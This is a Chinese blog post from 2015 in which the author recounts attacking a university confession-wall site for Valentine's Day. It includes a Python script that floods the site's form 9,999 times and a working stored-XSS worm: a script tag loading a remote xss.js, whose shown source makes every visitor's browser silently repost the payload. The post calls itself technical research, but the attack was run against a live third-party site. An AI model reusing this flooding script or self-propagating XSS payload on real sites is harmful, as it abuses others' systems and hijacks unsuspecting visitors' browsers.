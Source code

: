 ```yaml
---
layout: post
title: "XSS让每个人都帮我表白 (无对象技术测试)"
date: 2015-02-06 09:22
comments: true
author: MewX
published: true
categories: [life, python]
---
```


　　最近觉得学校的表白墙很好玩，而且人气也挺不错。有表白排行之类的有趣功能，经常能看到人刷屏、刷排行之类的。  

　　14号不就是情人节了嘛，最近肯定是表白人气最旺的时段了，妥妥地来凑个热闹。  

　　但是光是自己表白没啥意思啊，比如说我看到系统挺渣，我就用python写了个脚本一直刷，刷了9999次对吧。（下面这段代码把action地址给隐去了 =。=）  

<?prettify lang=python?>
    def tryPost( receiver, sender, msg):
        postData = 'save=1&book_title='+urllib.quote(receiver)+'&book_name='
                +urllib.quote(sender)+'&book_body='+urllib.quote(msg)
                +'&submit=%E5%8F%91%E5%B8%83';
        #print(postData);
        req = urllib2.Request(BaseURL,postData);
        req.add_header('Referer', BaseURL);
        urllib2.urlopen(req);
        return;

    for i in range(0,9999):
        tryPost('P^2','Anonymous','You know who.');

　　  

　　效果图如下，直接给刷了9999次。  
<center><a href="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/01-9999-loves.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　看代码的时候应该可以看到，这表单竟然提交了一个submit元素上去，真是用(sang)心(xin)良(bing)苦(kuang)啊，为后面XSS增加了难度呢！  

　　  

　　下面来XSS。之前说了这个表白留言系统超级渣啊，没有验证码、没有XSS过滤呢。我这边可以插入任意html代码的。  

　　现在我要做到的目标就是让每个访问这个页面的人帮我向target表白！  

　　  

　　**这部分的技术难点：**  

　　1. 嵌入XSS代码；  

　　2. XSS代码长度限制在200以内；（测试发现数据库的varchar长度是200字节，html进行POST的时候会进行转义编码即“汉字”会变成“%XX%XX%XX”）  

　　3. 因为一页可能会有多遍script载入，所以在载入多遍script的时候需要保证效果只有一次，不然就直接刷屏了，太没节操了；  

　　4. POST返回值要无视掉，不然会接收到一段alert代码，影响用户体验；  

　　5. 使用jQuery在网页顶部插入表白图片，这部分用纯JS的话很麻烦，默认只能appendChild添加在末尾；  

　　6. 因为有一个元素叫submit，所以不能使用form.submit()，否则会触发object is not an method错误；

　　  

　　提交的XSS代码：  

<?prettify lang=javascript?>
    <script type="text/javascript" src="http://mewx.org/js/xss.js"></script>

　　上面这部分代码已经压缩到最短了，本来准备在前面添加一段图片的，结果直接就超长了，图片添加挪到xss.js里面了。  

　　P.S. 刚刚push上来发现自己网页被挂上那个脚本了 \_(:3」∠)\_ 好吧。最后检查时少了个问号。。  

　　  

　　XSS.JS：  

<?prettify lang=javascript?>
    // 省略 jQuery 代码

    $(document).ready(function(){

        var obj = document.getElementById("LoveX");
        if(obj) return;

        $("body:first").prepend("<img id=\"LoveX\" src=\"http://www.dwz.cn/XXXXX\" style=\"width:350px;height:350px\"/>");
        //$(".LoveX").insertAfter("header");

        // Ajax
        var params = {save:1,book_title:'此处打码',book_name:'MewX',book_body:'<script type=\"text/javascript\" src=\"http://mewx.org/js/xss.js\"></script>',submit:'发布'};
        url = 'http://xxxxxxxxx.sinaapp.com/add_express.php';
        $.post(url,params,function(data){
            // ignore data
        });
    })

　　  

　　最终效果：如图，每个访问该页面的人都会帮我提交一份表白啦！~~
<center><a href="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" target="_blank"><img src="{{ site.cdn }}imgs/201502/02-XSS-express-love.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　不知到2月14号会有多少访问量呢？哈哈，刚刚看到有人和我的脚本对刷！！！  

　　  

　　----------  

　　  

　　补：以上纯属闹剧，表白对象与我也毫无干系 \_(:з」∠)\_ 各位借此能了解一下XSS便好。以上恶意举动仅作技术研究。  
